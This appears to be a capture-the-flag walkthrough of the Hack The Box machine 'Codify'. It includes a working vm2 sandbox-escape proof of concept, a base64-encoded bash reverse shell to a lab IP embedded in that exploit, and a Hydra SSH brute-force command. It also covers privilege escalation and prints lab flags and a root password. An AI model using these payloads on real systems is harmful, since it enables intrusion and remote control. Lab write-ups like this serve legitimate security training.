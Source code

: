 ```yaml
---
layout: post
title: "Hack The Box - Codify"
categories: guide
author:
- th4ntis
---
```


This is my walkthrough on [Codify](https://app.hackthebox.com/machines/Codify)

# Initial Scan

```nmap
sudo nmap -T4 -v 10.129.82.199
sudo nmap -T4 -Pn -p 22,80,3000 -sV -sC -v 10.129.82.199 -oA Codify
```

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(15).png)

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(17).png)

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(18).png)

# HTTP

Had to edit the host file to get the Webpage

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(16).png)

Checking out their About Us page

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(19).png)

Looking around for VM2 CVE's, found [this article on snyk](https://security.snyk.io/vuln/SNYK-JS-VM2-5537100) about RCE with VM2 after seeing a couple others. Testing the other PoC's I didn't get anywhere until I found this one. We can run commands on the host bypassing the VM.

```javascript
const { VM } = require("vm2");
const vm = new VM();

const code = `
  const err = new Error();
  err.name = {
    toString: new Proxy(() => "", {
      apply(target, thiz, args) {
        const process = args.constructor.constructor("return process")();
        throw process.mainModule.require("child_process").execSync("ls -al").toString();
      },
    }),
  };
  try {
    err.stack;
  } catch (stdout) {
    stdout;
  }
`;

console.log(vm.run(code)); // -> hacked
```

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(20).png)

whoami shows us the `svc` user. Also looking at `/etc/passwd` we see an additional user, `joshua`

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(21).png)

## BruteForce

Trying to run Hydra against the user joshua for a password

```bash
hydra -l joshua -P /usr/share/wordlists/rockyou.txt -V ssh://10.129.82.199
```

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(22).png)

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(23).png)

`joshua:spongebob1`

### Obtaining shell

Working to get a shall as svc. Looking around for reverse shell, I found [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp).

```bash
bash -i >& /dev/tcp/10.10.14.53/1234 0>&1
```

Running it normally didn't work so I encoded it

```
echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC41My8xMjM0IDA+JjE=' | base64 -d | bash"
```

Full command

```bash
const { VM } = require("vm2");
const vm = new VM();

const code = `
  const err = new Error();
  err.name = {
    toString: new Proxy(() => "", {
      apply(target, thiz, args) {
        const process = args.constructor.constructor("return process")();
        throw process.mainModule.require("child_process").execSync("echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC41My8xMjM0IDA+JjE=' | base64 -d | bash").toString();
      },
    }),
  };
  try {
    err.stack;
  } catch (stdout) {
    stdout;
  }
`;

console.log(vm.run(code)); // -> hacked
```

# Foothold

We have shell as svc

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(24).png)

Seeing what permissions we have

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(25).png)

# User Flag

After getting into shell from the SVC user, I got Joshuas password with hydra.

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(26).png)

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(27).png)

User flag: `c53cdd4688463871ba3f4020ab6f3ccb`

# Priv Esc

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(28).png)

We have run the note of "User joshua may run the following commands on codify: (root) /opt/scripts/mysql-backup.sh" So looking at the shell file

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(29).png)

Running that as root as get

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(30).png)

Get [PSPY](https://github.com/DominicBreuker/pspy) Initiate another SSH session. Get pspy64 onto the target machine, run it, then run the `/opt/scripts/mysql-backup.sh` script

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(31).png)

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(32).png)

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(33).png)

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(34).png)

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(35).png)

Root pass: `kljh12k3jhaskjh12kjh3`

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(36).png)

Root flag: `4e43f866588b3b3433196af3cef8b768`
